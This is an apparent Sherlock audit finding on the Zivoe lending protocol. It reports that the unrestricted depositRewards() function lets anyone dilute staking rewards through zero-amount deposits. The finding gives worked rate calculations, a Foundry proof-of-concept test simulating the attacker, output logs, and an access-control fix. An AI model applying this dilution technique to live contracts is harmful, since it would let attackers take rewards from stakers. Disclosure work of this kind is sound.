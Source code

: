 Fierce Crepe Sloth

medium

# Rewards in the different ZivoeRewards implementations can be diluted by a malicious user

## Summary
The ``ZivoeRewards.sol`` and the ``ZivoeRewardsVesting.sol`` are forked versions of the Synthetix rewards distribution contract, with slight modifications supporting different assets simultaneously as rewards, allowing everybody to call the [depositRewards()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function with no requirement on the minimum amount deposited, and requiring the reward for a new period to be deposited every time the [depositRewards()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function is called. This allows a malicious actor to dilute the rewards users are supposed to receive. Given the fact that the **Zivoe protocol** is a lending protocol. One of its core functions is to properly incentivize users to lend their assets to the **Zivoe protocol** so it can later utilize them, this happens by distributing rewards to users (usually advertised as APY). Usually the protocol will distribute rewards to the different ``ZivoeRewards.sol`` implementations (stJTT, stSTT, stZVE) and the ``ZivoeRewardsVesting.sol`` on a 30 day basis. If there are no previous reward deposits the rewardRate will be calculated in the [depositRewards()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function in the following way:

```solidity
        rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
```
Let's take a reward deposit of 30_000 USDC tokens.
*reward = 30_000e6*
*rewardsDuration = 30 days = 2_592_000 seconds*
*rewardRate = 30_000e6 / 2_592_000 ≈ 11_574*

10 days pass and a malicious actor calls the [depositRewards()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function with the reward parameter = 0. The function will calculate the rewardRate in the following way:

```solidity
        uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
        uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
        rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
```

*remaining = 1_728_000*
*leftover = 11_574  \* 1_728_000 = 19_999_872_000* 
*rewardRate = 19_999_872_000 / 2_592_000 ≈ 7_716*

For the following 20 days users that have staked will accrue a lot less rewards, than what they should, this is effectively stealing rewards for them, because if they want to have the chance to receive the full amount of rewards they were supposed to receive, they will have to continue staking for the next periods. However if there are new stakers in the new period the rewards will be further diluted as the new stakers should receive rewards proportional to their stake percentage as well. 

Lets say 20 days have passed, and the protocol makes a new deposit of **30_000e6 tokens**
*remaining = 864_000*
*leftover = 7_716  \* 864_000 = 6_666_624_000 ≈ 6_666e6* 
*rewardRate = (30_000e6 + 6_666e6) / 2_592_000 ≈ 14_146*

As can be seen from the above calculations, the ``rewardRate`` will be higher, and stakers that are staking during this period will receive more rewards than they should, effectively stealing from the previous stakers. 

Lets say 10 more days pass and a malicious actor calls the [depositRewards()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function with the reward parameter = 0. 

*remaining = 1_728_000*
*leftover = 14_146  \* 1_728_000 = 24_444_288_000* 
*rewardRate = 24_444_288_000 / 2_592_000 ≈ 9_430*

A malicious actor can dilute the rewards again, as we can see the ``rewardRate`` is less than what it is supposed to be for a reward deposit of **30_000e6** (should be **11_574** as per the first calculations). A malicious actor can dilute rewards until there is a period where a lot more rewards will be distributed, and make a big deposit for that period, effectively stealing rewards. Once the ``rewardRate`` gets normalized (for example he increases the ``rewardRate`` up until a certain period, then stakes in that reward period, and receives much bigger rewards, than he is supposed to) he can start over, and keep diluting rewards forever. 

## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb)

After following the steps in the above linked [gist](https://gist.github.com/AtanasDimulski/e2edba2c03e4dd1325b9e73c8fd58ddb) add the following test to the ``AuditorTests.t.sol`` file: 

```solidity
    function test_DiluteRewards() public {
        vm.startPrank(ZVL);
        uint256 duration = 30 days;
        stZVE.addReward(address(mockUSDC), duration);
        vm.stopPrank();

        vm.startPrank(simulateYLD);
        mockUSDC.mint(simulateYLD, 30_000e6); // this represent 30_000 USDC tokens to be distributed in the next 30 days
        mockUSDC.approve(address(stZVE), type(uint256).max);
        stZVE.depositReward(address(mockUSDC), 30_000e6);
        vm.stopPrank();

        vm.startPrank(attacker);
        console2.log("Initial rewards per second per token: ", getRewardRate());
        /// @notice 10 days has passed
        skip(864_000);
        console2.log("Rewards per token per second after 10 days have passed: ", getRewardRate());
        stZVE.depositReward(address(mockUSDC), 0);
        console2.log("Rewards per token per second after 10 days have passed, and rewards have been diluted: ", getRewardRate());
        vm.stopPrank();

        vm.startPrank(simulateYLD);
        skip(1_728_000);
        mockUSDC.mint(simulateYLD, 30_000e6); // this represent 30_000 USDC tokens to be distributed in the next 30 days
        stZVE.depositReward(address(mockUSDC), 30_000e6);
        vm.stopPrank();

        vm.startPrank(attacker);
        /// @notice above we skip 20 days, this represents the new reward period for the system (a whole reward period being 30 days)
        console2.log("Rewards per second per token after 20 more days have passed and a new deposit have been made: ", getRewardRate());
        /// @notice 10 days has passed
        skip(864_000);
        console2.log("Rewards per token per second after 10 more days have passed: ", getRewardRate());
        stZVE.depositReward(address(mockUSDC), 0);
        console2.log("Rewards per token per second after more 10 days have passed, and rewards have been diluted: ", getRewardRate());
        vm.stopPrank();
    }
```

```solidity
Logs:
  Initial rewards per second per token:  11574
  Rewards per token per second after 10 days have passed:  11574
  Rewards per token per second after 10 days have passed, and rewards have been diluted:  7716
  Rewards per second per token after 20 more days have passed and a new deposit have been made:  14146
  Rewards per token per second after 10 more days have passed:  14146
  Rewards per token per second after more 10 days have passed, and rewards have been diluted:  9430
```

To run the test use: ``forge test -vvv --mt test_DiluteRewards``
## Impact
A malicious actor can dilute user rewards. Users won't receive the rewards they should on time, and if they want to they will have to continue staking, as rewards keep getting pushed into the next cycle. New user may stake tokens in the new period effectively stealing rewards from the previous users (we are not talking about dust amounts here). A malicious actor can dilute the rewards for several rounds, until a lot of rewards are to be distributed in a singe period, then make a big stake effectively stealing rewards. Most of the stakers would be decentivized to keep their stake until this point, as they have never received the full rewards for a period up until this point. 

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243

## Tool used
Manual Review & Foundry

## Recommendation
Implement an access control allowing only the ``ZivoeYDL.sol``, the ``ZVL`` multisig or the ``ZivoeDAO`` to call the [depositReward()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243) function.